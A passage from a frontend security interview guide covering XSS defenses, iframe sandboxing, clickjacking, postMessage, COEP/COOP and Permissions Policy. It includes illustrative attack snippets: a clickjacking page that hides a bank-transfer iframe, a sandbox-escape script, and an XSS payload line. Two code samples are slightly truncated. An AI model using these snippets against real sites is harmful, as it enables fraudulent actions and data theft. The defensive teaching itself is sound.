>     new URL(a.href, location.href).protocol
>   )) {
>     a.remove();
>   }
> });
> ```
>
> 4. Use a strict CSP alongside:
> ```
> Content-Security-Policy: script-src 'self' 'nonce-...';
>   img-src 'self' https: data:;
>   default-src 'self'
> ```
>
> *What separates good from great:* The sanitization pipeline
> should be a SINGLE, audited, versioned function used everywhere.
> Not: "the blog sanitizes here, the comments sanitize differently
> there, the API sanitizes over there." One DOMPurify config,
> tested with the OWASP cheat sheet payloads, pinned to a specific
> DOMPurify version with upgrade review. Version pinning is
> important: DOMPurify patches real vulnerabilities (mXSS).
> Unpinned "latest" risks breaking production without review.

---

| Interviewer Type | Emphasis |
|---|---|
| Technical Panel | XSS types + prevention mechanics |
| Hiring Manager | Real-world impact + process |
| Bar Raiser | Trusted Types + CSP + mXSS |
| Peer Engineer | DOMPurify + safe DOM API usage |

---

### ⚖️ Comparison Table

| XSS Type | Vector | Server Logs | Persistence | Fix |
|---|---|---|---|---|
| Reflected | URL parameter | YES | No (per click) | Server-side output encoding |
| Stored | DB content | At write time | YES (all users) | Output encoding + sanitize |
| DOM-based | URL fragment/JS | NO | No (per visit) | Client-side sanitization |

| Defense Layer | What It Stops | What It Doesn't |
|---|---|---|
| textContent | HTML injection in text | Rich text formatting |
| DOMPurify | Most XSS in innerHTML | Sophisticated mXSS (keep updated) |
| CSP | Inline script execution | Stored XSS data exfil via img |
| HttpOnly cookies | Cookie theft via XSS | Session hijacking via non-cookie tokens |
| Trusted Types | Any unsafe DOM sink usage | Correct but malicious policy logic |

---

### 🏛️ System Design

*(Omit: not a ★★★ keyword.)*

---

### 📊 Diagram

```
> **Code walkthrough:** This example demonstrates the core pattern in action. The key mechanism shows how the concept works in practice. Study the structure to understand the essential behavior and common usage.

XSS ATTACK FLOW:
  Attacker:
  1. Finds unsanitized input (search, comment, profile)
  2. Injects: <script>stealData()</script>
     or: 

  Victim:
  3. Page loads with injected payload
  4. Browser executes attacker JS
  5. Attacker's server receives stolen data
```



> **Diagram walkthrough:** The stored XSS lifecycle shows why this
> type is the most dangerous - the attacker acts once and affects
> every subsequent visitor. The attack flows through the server
> and database without any visible anomaly in server behavior.
> The critical moment is when the server returns the comment to
> the victim's browser without sanitization: the browser faithfully
> executes whatever JavaScript it finds, making no distinction
> between developer-written code and injected attacker code. The
> fix annotation shows both strategies: sanitize on input before
> DB storage (cleans data permanently) or escape on output (treats
> stored data as plain text when rendering).

---

---

# iframe Security Sandbox and Clickjacking

🎯 **Interview Weight:** high (★★☆) - iframe security and
clickjacking protection appear in security-focused interviews;
X-Frame-Options and CSP frame-ancestors are frequently asked

---

### 🎯 Model Answer

**30 seconds:**

> Clickjacking puts an invisible iframe over a page to trick users
> into clicking buttons they can't see. Prevention: send the
> `X-Frame-Options: DENY` header (or `SAMEORIGIN`), or use CSP's
> `frame-ancestors 'none'`. The `sandbox` attribute on `<iframe>`
> restricts what the embedded page can do: block scripts, forms,
> popups, and same-origin privileges. Always sandbox third-party iframes.

**3 minutes (Senior):**

> Clickjacking is a UI redress attack. The attacker creates a
> page where an invisible iframe is positioned over a button.
> The user thinks they're clicking "Win a prize" but actually
> clicking "Confirm bank transfer" in the invisible iframe.
>
> Defense: `X-Frame-Options` is the older mechanism:
> - `DENY`: page cannot be framed at all
> - `SAMEORIGIN`: page can be framed only by same origin
> - No wildcard support - origin-specific allowlist requires CSP
>
> CSP `frame-ancestors` is the modern replacement:
> - `frame-ancestors 'none'` → equivalent to DENY
> - `frame-ancestors 'self'` → equivalent to SAMEORIGIN
> - `frame-ancestors 'self' https://partner.com` → allowlist
>
> The sandbox attribute on `<iframe>` controls what the embedded
> content can do. Without sandbox: embedded page has same
> capabilities as any page. With `sandbox=""`: maximum restriction.
> Individual capabilities are re-enabled selectively: `allow-scripts`
> to run JS, `allow-forms` for forms, `allow-same-origin` to
> allow localStorage access.
>
> Critical rule: `sandbox="allow-scripts allow-same-origin"` is
> UNSAFE - combining both negates the sandbox entirely (scripts
> can remove the sandbox attribute from the iframe DOM).

*Adapting up:* Discuss the Permissions Policy header (formerly
Feature Policy), COEP/COOP headers for cross-origin isolation,
and iframe postMessage security.

*Adapting down:* The sandbox attribute locks down what embedded
content can do. X-Frame-Options prevents your page from being
put in someone else's iframe.

**Blank Mind Recovery:**

**(1) Restate:** "Clickjacking = invisible iframe over your page.
Prevention = X-Frame-Options or CSP frame-ancestors."

**(2) First principles:** "iframes embed external pages. Without
restrictions, those pages have full capabilities. Sandbox restricts
capabilities. Frame headers prevent your own page being embedded."

**(3) Bridge:** "Think of sandbox as a quarantine for untrusted
iframe content."

---

### 📘 Concept Explanation

**What it is:**

Clickjacking is a UI redress attack where an attacker embeds a
victim page in an invisible or transparent iframe to trick users
into performing unintended actions. The `sandbox` attribute
restricts iframe capabilities. `X-Frame-Options` and
`Content-Security-Policy: frame-ancestors` control whether a
page can be embedded in iframes.

**The problem it solves:**

Two distinct problems:
1. Clickjacking: you need to prevent YOUR page from being framed
   by an attacker to perform invisible clicks on your UI.
2. Third-party iframe security: you need to restrict what
   third-party content embedded in your page can do.

**How it works:**

```
CLICKJACKING ATTACK:
  <!-- Attacker's page: -->
  <style>
    #decoy { position: relative; }
    #target-frame {
      position: absolute;
      top: 0; left: 0;
      width: 500px; height: 500px;
      opacity: 0.0;         /* INVISIBLE */
      z-index: 1000;
      pointer-events: all;
    }
  </style>
  <div id="decoy">
    <h1>Click here to claim prize!</h1>
    <button>Claim Now</button>
    <!-- invisible iframe positioned over the button: -->
    <iframe id="target-frame"
            src="https://bank.com/transfer?to=attacker&amount=5000"
            width="500" height="500">
    </iframe>
  </div>

  User sees: "Claim Now" button
  User clicks: actually clicks "Confirm" in invisible bank.com iframe
  Result: unauthorized bank transfer

PREVENTION - X-FRAME-OPTIONS (send as HTTP header):
  X-Frame-Options: DENY
    → Page CANNOT be embedded in any iframe anywhere
    → Clickjacking prevented universally

  X-Frame-Options: SAMEORIGIN
    → Page can be embedded by same origin only
    → Protects against cross-origin clickjacking

  X-Frame-Options: ALLOW-FROM https://partner.com
    → Deprecated: not supported in modern browsers
    → Use CSP frame-ancestors instead

  Express.js using helmet:
    const helmet = require('helmet');
    app.use(helmet.frameguard({ action: 'deny' }));
    // Sets: X-Frame-Options: DENY

PREVENTION - CSP FRAME-ANCESTORS (preferred):
  Content-Security-Policy: frame-ancestors 'none'
    → Equivalent to X-Frame-Options: DENY
    → Prevents ALL framing

  Content-Security-Policy: frame-ancestors 'self'
    → Equivalent to X-Frame-Options: SAMEORIGIN

  Content-Security-Policy: frame-ancestors 'self' https://partner.com
    → Allowlist: can be framed by self and partner.com
    → X-Frame-Options can't do this (no allowlist)

  Both headers (backward compatibility):
    X-Frame-Options: SAMEORIGIN
    Content-Security-Policy: frame-ancestors 'self'

IFRAME SANDBOX ATTRIBUTE:
  <!-- Maximum restriction (no sandbox = no restrictions): -->
  <iframe src="https://widget.example.com"
          sandbox>
          <!-- OR: sandbox="" -->
  <!-- With sandbox="":
    - No JavaScript execution
    - No form submission
    - No top-level navigation
    - No popups
    - No plugins
    - Treated as unique origin (no same-origin access)
    - No pointer lock
    - No presentation lock -->

  <!-- Selective capability grants: -->
  <iframe src="https://embed.example.com"
          sandbox="allow-scripts allow-popups">
  <!-- Allows: scripts, popups
     Blocks: forms, same-origin, navigation, plugins -->

  SANDBOX TOKEN MEANINGS:
    allow-scripts          → run JavaScript
    allow-forms            → submit forms
    allow-popups           → open popup windows
    allow-same-origin      → has same-origin privileges
    allow-top-navigation   → can navigate parent window
    allow-top-navigation-by-user-activation → nav only on click
    allow-downloads        → can download files
    allow-modals           → can show alert/confirm/prompt
    allow-pointer-lock     → mouse pointer lock
    allow-presentation     → presentation session

  ⛔ CRITICAL DANGER COMBINATION:
    sandbox="allow-scripts allow-same-origin"
    → UNSAFE: scripts + same-origin = can remove sandbox
    // Malicious script inside iframe:
    window.frameElement.removeAttribute('sandbox');
    // Sandbox is now gone. Full access.

  Safe grant for untrusted third-party widgets:
    sandbox="allow-scripts allow-popups"
    // Blocks: forms, same-origin, navigation
    // Allows: scripts (needed for widget), popups (ads)

IFRAME COMMUNICATION (postMessage):
  // Parent page sends message to iframe:
  const frame = document.getElementById('my-frame');
  frame.contentWindow.postMessage(
    { type: 'update', data: someData },
    'https://widget.example.com'  // MUST specify target origin
  );
  // NEVER use '*' as target origin for sensitive data

  // iframe receives message:
  window.addEventListener('message', (e) => {
    // ALWAYS verify origin:
    if (e.origin !== 'https://myapp.com') {
      return;  // reject unknown origins
    }
    // Process e.data safely:
    const { type, data } = e.data;
    // Sanitize data before use in DOM:
    if (type === 'update') {
      element.textContent = String(data.text);
    }
  });

PERMISSIONS POLICY (iframe allow attribute):
  <iframe src="https://maps.example.com"
          allow="geolocation 'src'"
          sandbox="allow-scripts allow-same-origin">
  <!-- allow="geolocation 'src'":
       Only the iframe's origin can request geolocation
       Default: iframe cannot access camera/mic/geolocation/etc.
       without explicit allow -->

  Common features:
  camera, microphone, geolocation, payment, autoplay,
  fullscreen, display-capture, usb, bluetooth
```

> **Code walkthrough:** The permissions reference lists all
> standard Permissions Policy features. Camera, microphone and
> geolocation require explicit user gesture; payment and usb
> represent high-risk capabilities that should be omitted unless
> the embedded widget is explicitly trusted. Omitting a feature
> from the `allow` attribute denies it even if the embedded
> origin requests it - deny by default, grant narrowly.

**The key insight:**

`allow-scripts allow-same-origin` is the forbidden combination.
Scripts running with same-origin access can reach the iframe
element in the parent DOM (via `window.frameElement`) and remove
the sandbox attribute entirely. Once removed, the sandbox is
gone - the page now has full capabilities. Never combine both
unless you explicitly need same-origin access AND trust the
embedded content.

**When to use it:**

Add `X-Frame-Options: DENY` + CSP `frame-ancestors 'none'` to
all pages that should not be embedded. Add `sandbox` to ALL
third-party iframes. Add `allow-scripts` only if the embedded
content needs JavaScript. NEVER use `allow-scripts allow-same-origin`
for untrusted content.

**When NOT to use it:**

If you intentionally embed your own page content in an iframe
(e.g., an inline preview), you need `SAMEORIGIN` not `DENY`.
If the embedded third-party widget needs form submission, add
`allow-forms` explicitly.

**Alternatives:**

- `Permissions-Policy` header → restricts features for the
  whole page and its iframes
- `COOP/COEP` headers → cross-origin isolation for SharedArrayBuffer

**First-principles derivation:**

iframes load external pages that run in their own browsing context.
Without restrictions, they can navigate the top-level window,
submit forms, read same-origin storage, and spawn popups. Sandbox
applies a capability allowlist: start with nothing, grant
explicitly. The opposite (block specific things) is unworkable
because new capabilities keep being added to the web platform.

---

### 💻 Code Example

**Secure iframe embedding with sandbox and postMessage**

```html
<!-- BAD: no sandbox, no permission controls -->
<iframe src="https://third-party-widget.com/embed.html"
        width="400" height="300">
</iframe>
<!-- widget can: run scripts, submit forms, navigate top window,
     access same-origin cookies if loaded from your domain,
     open popups, request geolocation/camera/mic -->

<!-- GOOD: sandboxed with minimal permissions -->
        width="400"
        height="300"
        title="Payment Widget"
        sandbox="allow-scripts allow-popups"
        allow="payment"
        loading="lazy">
  <!-- sandbox grants ONLY: scripts, popups -->
  <!-- allow="payment": enables Payment Request API -->
  <!-- loading="lazy": defer loading until near viewport -->
  <!-- title: required for accessibility -->
</iframe>
```

```javascript
// Secure postMessage communication with embedded iframe:

const trustedWidget = document.getElementById('widget-frame');

// Send update to widget (specify exact target origin):
function updateWidget(payload) {
  trustedWidget.contentWindow.postMessage(
    { action: 'update', payload },
    'https://widget.example.com'  // exact origin, not '*'
  );
}

// Receive messages from widget:
window.addEventListener('message', (event) => {
  // Step 1: verify origin - reject unknown sources
  const TRUSTED_ORIGIN = 'https://widget.example.com';
  if (event.origin !== TRUSTED_ORIGIN) {
    console.warn('Rejected message from:', event.origin);
    return;
  }

  // Step 2: validate event.data type/structure
  if (typeof event.data !== 'object' ||
      !event.data.action) {
    return;
  }

  // Step 3: safe, allowlisted actions
  const { action, value } = event.data;
  switch (action) {
    case 'height-change':
      // Resize iframe (numeric only):
      const height = Number(value);
      if (!isFinite(height) || height < 0 || height > 2000) {
        return;
      }
      trustedWidget.style.height = height + 'px';
      break;
    case 'payment-complete':
      // Handle payment confirmation:
      showConfirmation(String(value?.orderId || ''));
      break;
    default:
      // Unknown action: ignore
  }
});
```

> **Code walkthrough:** The sandboxed iframe explicitly lists
> only the capabilities needed: `allow-scripts` (widget needs JS)
> and `allow-popups` (payment flow may open popup). It omits
> `allow-same-origin` intentionally - the widget is from a
> different origin, so same-origin access would be meaningless
> and dangerous. The `allow="payment"` attribute on the iframe
> grants the Payment Request API to the specific embedded origin.
> The postMessage handler follows the three security steps:
> verify origin before trusting, validate structure before
> processing, and use an action allowlist to prevent unexpected
> behavior.

---

### 🎓 Answers by Seniority

**Junior / Mid:**

> Clickjacking uses invisible iframes to steal clicks. Prevention:
> `X-Frame-Options: DENY` header on your pages. The sandbox attribute
> on `<iframe>` restricts what embedded content can do - use
> `sandbox="allow-scripts"` for third-party widgets that need JS.
> Never combine `allow-scripts` and `allow-same-origin` together
> (unsafe combination).

---

**Senior / Staff:**

> Use CSP `frame-ancestors 'none'` instead of `X-Frame-Options`
> for new implementations (supports allowlist; XFO doesn't).
> Send both for backward compatibility. For partner integrations
> where your page must be embedded: `frame-ancestors 'self' https://partner.com`.
> For third-party iframes: start with `sandbox=""` (maximum
> restriction), add capabilities as needed. Review the allow
> attribute for Permissions Policy (camera, mic, payment) - ensure
> you're not unintentionally granting capabilities.

---

### ⚠️ Common Misconceptions

**"X-Frame-Options: ALLOW-FROM is supported in modern browsers"**

`X-Frame-Options: ALLOW-FROM` was never fully supported and is
now ignored in Chrome, Firefox, and Safari. To allow framing
by specific origins, use `Content-Security-Policy: frame-ancestors https://specific-origin.com`.
Relying on ALLOW-FROM gives a false sense of security while being
ignored by all modern browsers.

**"sandbox without any tokens means the content is completely isolated"**

`sandbox` (no tokens) blocks scripts, forms, same-origin access,
and popups - but the iframe still loads the content, renders HTML
and CSS, and the content is still visible to the user. Some
CSS-based attacks (timing attacks on :visited links, font loading)
may still be possible. Sandbox is not a full security boundary
for highly sensitive scenarios - for that, use COEP/COOP headers
for cross-origin isolation.

---

### 🚨 Failure Modes and Diagnosis

**Symptom: page is being used in clickjacking attack**

```
User reports: "I clicked X but it did Y"
Analytics: unexpected form submissions from external referrers
Security audit: page loads in iframe from foreign domain

Diagnosis:
  Open browser console on the attacker's page (if you can):
  document.querySelectorAll('iframe[src*="yoursite.com"]')
  Check DevTools Application panel for your site: no XFO headers

Verification: test if your page can be framed:
  <iframe src="https://yoursite.com/sensitive-page"></iframe>
  If it loads: you're vulnerable

Fix: add both headers in server config:
  Node.js (helmet):
    app.use(helmet.frameguard({ action: 'deny' }));
    app.use(helmet.contentSecurityPolicy({
      directives: {
        frameAncestors: ["'none'"]
      }
    }));

  Nginx:
    add_header X-Frame-Options "DENY";
    add_header Content-Security-Policy "frame-ancestors 'none'";

  Apache:
    Header always set X-Frame-Options "DENY"
    Header always set Content-Security-Policy "frame-ancestors 'none'"

  Verify with curl:
    curl -I https://yoursite.com/sensitive-page
    Check for X-Frame-Options and Content-Security-Policy headers
```

> **Code walkthrough:** The diagnostic sequence starts with user
> reports and analytics signals, then narrows with browser DevTools
> and curl. The curl check is critical: both `X-Frame-Options` and
> `Content-Security-Policy: frame-ancestors` must appear in the
> response headers. Missing both means any page can embed you.
> The fix applies the headers in all three major server stacks
> (Node.js helmet, Nginx, Apache) - pick the one matching your
> deployment and add both headers for defense-in-depth.

---

### 🎯 Interview Deep-Dive

| Scenario | Recommended Time | Key Signal |
|---|---|---|
| Clickjacking mechanism | 2-3 min | Attack vector |
| X-Frame-Options values | 2 min | DENY vs SAMEORIGIN |
| CSP frame-ancestors | 2-3 min | Modern replacement |
| sandbox attribute values | 3 min | Token meanings |
| allow-scripts + allow-same-origin | 2 min | Danger combination |
| postMessage security | 3-4 min | Origin validation |
| Permissions Policy | 2-3 min | Feature restrictions |
| iframe loading performance | 2 min | loading=lazy |
| COEP/COOP cross-origin isolation | 3-4 min | Advanced security |
| Sandbox bypass vectors | 3 min | allow-same-origin |
| Third-party widget security | 3 min | Real-world scenario |
| X-Frame-Options vs CSP | 2-3 min | Header comparison |

---

**Q1: What is clickjacking and how is it prevented?** `[JUNIOR]`
DEFINITION

*Why they ask:* Core iframe security concept.

*Likely follow-up:* "What is X-Frame-Options: SAMEORIGIN used for?"

> **Answer:**
>
> Clickjacking is a UI redress attack. The attacker creates a page
> with a transparent iframe positioned over a fake UI element.
> The victim thinks they're clicking a benign element but actually
> clicking a button or link in the invisible iframe.
>
> Classic attack:
> ```
> Attacker page: "WIN A PRIZE! Click here!"
>   [Over that button: invisible iframe to bank.com confirm page]
> User clicks: activates bank.com's "Confirm Transfer" button
> ```
>
> Prevention: HTTP response headers that tell the browser whether
> to allow this page to be embedded in an iframe:
>
> `X-Frame-Options` (older, widely supported):
> - `DENY`: page cannot be embedded anywhere
> - `SAMEORIGIN`: page can only be embedded by same origin
>
> `Content-Security-Policy: frame-ancestors` (modern, more flexible):
> - `frame-ancestors 'none'`: same as DENY
> - `frame-ancestors 'self'`: same as SAMEORIGIN
> - `frame-ancestors 'self' https://partner.com`: allowlist
>
> ```
> Response headers for a bank transfer page:
> X-Frame-Options: DENY
> Content-Security-Policy: frame-ancestors 'none'
> ```
>
> Both headers for compatibility: modern browsers prefer CSP;
> older browsers fall back to X-Frame-Options.
>
> `SAMEORIGIN` use case: your own SPA embeds a subpage via iframe
> (less common), or an admin dashboard embeds pages from the same domain.
>
> *What separates good from great:* X-Frame-Options was introduced
> as an emergency response to clickjacking vulnerabilities at major
> banks in 2009. The CSP `frame-ancestors` directive was designed
> to replace it because XFO has no allowlist support. In practice:
> use both headers for maximum compatibility. The CSP directive
> takes precedence in browsers that support it; XFO handles older
> browsers. Running an HTTP security header check (securityheaders.com)
> on any production site should show these headers.

---

**Q2: What does the sandbox attribute do to an iframe?** `[JUNIOR]`
MECHANISM

*Why they ask:* Core iframe embedding security.

*Likely follow-up:* "When would you use allow-same-origin?"

> **Answer:**
>
> The `sandbox` attribute applies a set of restrictions to the
> content inside the iframe. Without `sandbox`: the embedded page
> has nearly full browser capabilities. With `sandbox`: all
> capabilities are blocked by default, and re-enabled individually.
>
> ```html
> <!-- No sandbox: full capabilities -->
> <iframe src="https://untrusted.com/widget.html">
> <!-- Can: run JS, submit forms, navigate top window,
>      open popups, access same-origin storage (if same origin),
>      request geolocation, etc. -->
>
> <!-- sandbox (empty): all restricted -->
> <iframe src="https://untrusted.com/widget.html" sandbox>
> <!-- Cannot: JS, forms, popups, navigation,
>      same-origin access, plugins -->
>
> <!-- sandbox with specific grants: -->
> <iframe src="https://untrusted.com/widget.html"
>         sandbox="allow-scripts allow-popups">
> <!-- CAN: run JavaScript, open popups -->
> <!-- CANNOT: forms, navigation, same-origin, plugins -->
> ```
>
> Key tokens:
> - `allow-scripts`: run JavaScript
> - `allow-forms`: submit forms
> - `allow-popups`: open new windows
> - `allow-same-origin`: iframe keeps its origin (not sandboxed origin)
> - `allow-top-navigation`: can navigate parent to new URL
> - `allow-top-navigation-by-user-activation`: navigation only on user gesture
>
> `allow-same-origin` use case: embedding a map widget from your
> own origin where the widget needs localStorage access. Risky
> with allow-scripts (see Q3).
>
> `allow-top-navigation-by-user-activation`: safer alternative
> to `allow-top-navigation`. Prevents the iframe from silently
> redirecting the user; only allows navigation on click/keypress.
>
> *What separates good from great:* Without `sandbox`, an iframe
> from a compromised CDN (supply chain attack) can:
> 1. Set `window.top.location = 'https://phishing.com'` (redirect)
> 2. Submit forms with the user's cookies
> 3. Open popups with fake login pages
> With `sandbox="allow-scripts"`, option 1 is blocked (`top` navigation
> restricted), option 2 is blocked (no `allow-forms`), option 3
> is blocked (no `allow-popups`). The script can still run and
> make API calls, but can't do most UI manipulation attacks.

---

**Q3: Why is `sandbox="allow-scripts allow-same-origin"` unsafe?**
`[SENIOR]` MECHANISM

*Why they ask:* Critical security gotcha.

*Likely follow-up:* "How does the script remove the sandbox?"

> **Answer:**
>
> The combination is unsafe because a script running with
> same-origin access can reach the parent DOM and REMOVE the
> sandbox restriction:
>
> ```javascript
> // Malicious script inside sandboxed iframe:
> // (iframe is same-origin, so window.frameElement is accessible)
>
> // Step 1: access the iframe element in the parent:
> const iframeEl = window.frameElement;
> // window.frameElement is null for cross-origin (blocked)
> // For same-origin: returns the <iframe> DOM element
>
> // Step 2: remove the sandbox:
> iframeEl.removeAttribute('sandbox');
> // Sandbox is now removed from the iframe element
>
> // Step 3: reload to apply (no sandbox):
> window.location.reload();
> // OR: spawn a new same-origin popup without sandbox
> window.open(window.location.href);
> ```
>
> After removing the sandbox:
> - Can navigate the top window (`window.top.location = ...`)
> - Can submit forms
> - Can open popups
> - Can steal cookies and localStorage from the same origin
>
> This is why the combination is documented as dangerous in the
> HTML specification itself.
>
> The secure alternatives:
> - Third-party content: `allow-scripts` only (cross-origin,
>   so `window.frameElement` is null and unreachable)
> - Same-origin content: `allow-same-origin` only (no scripts,
>   so the removal script can't run)
> - If you need both: don't use a sandboxed iframe. Host the
>   content on a separate domain.
>
> The spec says:
> "Setting both the allow-scripts and the allow-same-origin
> keywords together when the embedded page has the same origin
> as the page containing the iframe allows the embedded page
> to simply remove the sandbox attribute and then reload itself,
> effectively breaking out of the sandbox altogether."
>
> *What separates good from great:* The sandbox attribute is a
> best-effort mechanism for cross-origin content, not a security
> guarantee for same-origin trusted content. For high-security
> scenarios (banking apps, healthcare), `allow-same-origin` iframes
> should be architecturally separated to a different subdomain
> (widget.bank.com instead of bank.com). Then the widget is
> cross-origin from the parent page - `window.frameElement` is
> null, preventing sandbox removal regardless of JavaScript execution.

---

**Q4: How do you secure postMessage communication between a page
and its iframes?** `[SENIOR]` SCENARIO

*Why they ask:* postMessage is a common cross-frame communication
mechanism with security implications.

*Likely follow-up:* "What happens if you use '*' as the target origin?"

> **Answer:**
>
> `postMessage` allows cross-origin communication between windows,
> frames, and workers. Both the sender and receiver have security responsibilities:
>
> **SENDER: always specify the target origin:**
> ```javascript
> // BAD: any origin can receive this message
> frame.contentWindow.postMessage(data, '*');
> // If the iframe has been navigated to a malicious page:
> // that page receives the message (possibly with sensitive data)
>
> // GOOD: message only delivered to this exact origin
> frame.contentWindow.postMessage(data, 'https://widget.example.com');
> // If iframe.src is different: message is silently dropped
> ```
>
> **RECEIVER: always verify origin before acting:**
> ```javascript
> // BAD: trusts any message from any origin
> window.addEventListener('message', (e) => {
>   executeAction(e.data);  // anyone can send commands!
> });
>
> // GOOD: verify origin first
> window.addEventListener('message', (e) => {
>   // 1. Check origin:
>   const TRUSTED = new Set([
>     'https://myapp.com',
>     'https://admin.myapp.com'
>   ]);
>   if (!TRUSTED.has(e.origin)) return;
>
>   // 2. Validate message structure:
>   if (!e.data || typeof e.data !== 'object') return;
>   const { action, payload } = e.data;
>   if (typeof action !== 'string') return;
>
>   // 3. Allowlist actions:
>   const ACTIONS = new Map([
>     ['resize', handleResize],
>     ['close', handleClose]
>   ]);
>   const handler = ACTIONS.get(action);
>   if (!handler) return;
>
>   // 4. Sanitize payload before DOM use:
>   handler(payload);
> });
> ```
>
> Using '*' as target origin vulnerability:
> 1. Parent page sends auth token to iframe: `postMessage({token}, '*')`
> 2. Attacker navigates the iframe to their page
> 3. Attacker's page receives the message with the token
> 4. Token is now stolen
>
> Even without navigation, `*` means if any script somehow
> intercepts postMessage (via prototype pollution or a bug), it
> receives the data.
>
> *What separates good from great:* postMessage's `e.source`
> property returns the window that sent the message. This can
> be used to verify that the message comes from YOUR iframe
> (not just any window claiming to be from that origin):
> ```javascript
> const knownFrames = new Set([document.getElementById('widget').contentWindow]);
> window.addEventListener('message', (e) => {
>   if (!knownFrames.has(e.source)) return;
>   if (e.origin !== 'https://widget.example.com') return;
>   // Double verification: known frame AND known origin
> });
> ```

---

**Q5: What is COEP and COOP and when do you need them?** `[SENIOR]`
MECHANISM

*Why they ask:* Advanced cross-origin isolation.

*Likely follow-up:* "Why do you need COEP to use SharedArrayBuffer?"

> **Answer:**
>
> Cross-Origin Embedder Policy (COEP) and Cross-Origin Opener Policy
> (COOP) are HTTP headers that establish cross-origin isolation -
> a higher security mode that enables powerful but dangerous features.
>
> **COEP** (`Cross-Origin-Embedder-Policy`):
> ```
> Cross-Origin-Embedder-Policy: require-corp
> ```
> Requires that all resources loaded by the page (scripts, images,
> iframes) have either:
> - A `Cross-Origin-Resource-Policy: cross-origin` header (opt-in), OR
> - A valid CORS response
>
> Without COEP: third-party resources load regardless of their
> headers.
> With COEP: third-party resources that don't opt-in are BLOCKED.
>
> **COOP** (`Cross-Origin-Opener-Policy`):
> ```
> Cross-Origin-Opener-Policy: same-origin
> ```
> Prevents the page from being opened in a popup from a different origin,
> and prevents the page from opening cross-origin popups (they get
> a null `opener`).
>
> Why both are needed for `SharedArrayBuffer`:
> ```
> After Spectre (2018): SharedArrayBuffer + high-resolution timers
> could be used for timing attacks to read other processes' memory.
>
> Browser mitigations:
> - Disabled SharedArrayBuffer by default
> - Re-enabled ONLY in "cross-origin isolated" contexts
> - Cross-origin isolated = COEP + COOP both present
>
> With both headers:
>   crossOriginIsolated === true (window property)
>   SharedArrayBuffer available
>   performance.now() high resolution available
>   Atomics.wait() on non-worker allowed
> ```
>
> Use cases requiring cross-origin isolation:
> - WebAssembly multithreading (SharedArrayBuffer)
> - High-precision timers
> - `Atomics.wait()` in main thread
>
> ```javascript
> // Check if cross-origin isolated:
> if (self.crossOriginIsolated) {
>   new SharedArrayBuffer(1024);  // works
> } else {
>   // Use single-threaded fallback
> }
> ```
>
> *What separates good from great:* COEP is the hard requirement.
> Every resource your page loads must opt-in to being loaded
> cross-origin. For most apps: CDN images, fonts, and third-party
> scripts don't set `CORP: cross-origin`. Adding COEP breaks these.
> The migration path: use `COEP: unsafe-none` → audit which
> resources fail → add CORP headers to your assets → add CORS
> headers to APIs → then switch to `require-corp`. This migration
> can take weeks for large applications. It's a significant
> operational commitment that should be planned, not incidental.

---

**Q6: What is the Permissions Policy (formerly Feature Policy)
for iframes?** `[SENIOR]` MECHANISM

*Why they ask:* Controls iframe capabilities beyond sandbox.

*Likely follow-up:* "What features does it control?"

> **Answer:**
>
> Permissions Policy (formerly Feature Policy) controls which
> browser features the page and its embedded iframes can use.
> It's separate from sandbox - sandbox controls structural iframe
> capabilities; Permissions Policy controls API access.
>
> Two mechanisms:
>
> **HTTP header (for the page):**
> ```
> Permissions-Policy: camera=(), microphone=(), geolocation=()
> ```
> - Blocks the page AND all iframes from accessing camera, mic, geolocation
> - `()` = deny all origins
> - `(self)` = allow only same origin
> - `(self "https://maps.example.com")` = allow self + specific origin
>
> **`allow` attribute on `<iframe>` (for that iframe):**
> ```html
> <!-- Maps widget: needs geolocation, nothing else -->
> <iframe src="https://maps.example.com/embed"
>         allow="geolocation 'src'"
>         sandbox="allow-scripts allow-same-origin">
> <!-- allow="geolocation 'src'":
>      geolocation allowed for the iframe's own origin
>      'src' = the value of the iframe's src attribute -->
>
> <!-- Payment widget: needs payment API -->
> <iframe src="https://pay.example.com/checkout"
>         allow="payment">
> <!-- payment API allowed for the iframe -->
>
> <!-- Video embed: needs autoplay and fullscreen -->
> <iframe src="https://video.example.com/embed"
>         allow="autoplay; fullscreen">
> ```
>
> Controlled features include:
> `camera`, `microphone`, `geolocation`, `payment`,
> `fullscreen`, `autoplay`, `display-capture`, `usb`,
> `bluetooth`, `accelerometer`, `gyroscope`,
> `magnetometer`, `ambient-light-sensor`, `screen-wake-lock`
>
> Default: embedded iframes cannot access camera, mic, geolocation
> without `allow`. This is the secure default.
>
> Check current policy:
> ```javascript
> document.featurePolicy.allowsFeature('camera');
> document.featurePolicy.allowedFeatures();
> ```
>
> *What separates good from great:* The `allow` attribute on
> iframes is increasingly important as third-party widgets
> request more capabilities. A chat widget asking for mic access
> should trigger review: do we want to grant this? Add
> `allow="microphone"` intentionally, not by default. The
> Permissions Policy gives a defense layer even if an iframe
> is compromised: a sandboxed widget with no `allow="camera"`
> cannot access the camera even if its code is malicious.

---

**Q7: How do you implement a secure payment iframe?** `[SENIOR]`
SCENARIO

*Why they ask:* Real-world security engineering scenario.

*Likely follow-up:* "What is the Content-Security-Policy frame-src directive?"

> **Answer:**
>
> A payment iframe (like Stripe Elements) requires careful security:
>
> **The problem:** payment form runs on a third-party domain but
> sits inside your checkout page. Balance: functionality vs security.
>
> **Secure implementation:**
>
> ```html
> <!-- Payment widget: needs scripts for processing + forms -->
> <iframe id="payment-frame"
>         src="https://pay.stripe.com/elements"
>         sandbox="allow-scripts allow-forms allow-popups"
>         allow="payment"
>         title="Payment form"
>         referrerpolicy="no-referrer"
>         loading="lazy"
>         width="100%" height="300">
> </iframe>
>
> <!-- Explanation:
>   sandbox="allow-scripts allow-forms allow-popups":
>     - Scripts: required for payment processing
>     - Forms: required for form submission
>     - Popups: 3DS verification sometimes uses popups
>     - MISSING: allow-same-origin (different origin anyway)
>     - MISSING: allow-top-navigation (prevent redirect hijack)
>   allow="payment": Payment Request API for wallet payments
>   referrerpolicy="no-referrer": don't leak your URL to Stripe
>   title: accessibility requirement
> -->
> ```
>
> CSP headers to allow the payment frame:
> ```
> Content-Security-Policy:
>   frame-src 'self' https://pay.stripe.com https://js.stripe.com;
>   script-src 'self' https://js.stripe.com;
>   connect-src 'self' https://api.stripe.com;
> ```
>
> postMessage with payment provider:
> ```javascript
> window.addEventListener('message', (e) => {
>   // Verify Stripe's origin:
>   if (e.origin !== 'https://js.stripe.com') return;
>
>   const { type, data } = e.data;
>   if (type === 'stripe-js-v3-payment-intent') {
>     // Handle payment intent confirmation:
>     const { clientSecret } = data;
>     confirmPayment(clientSecret);  // your code
>   }
> });
> ```
>
> CSP `frame-src`: controls which origins can be loaded in iframes.
> More specific than `child-src`. Using this allowlist means even
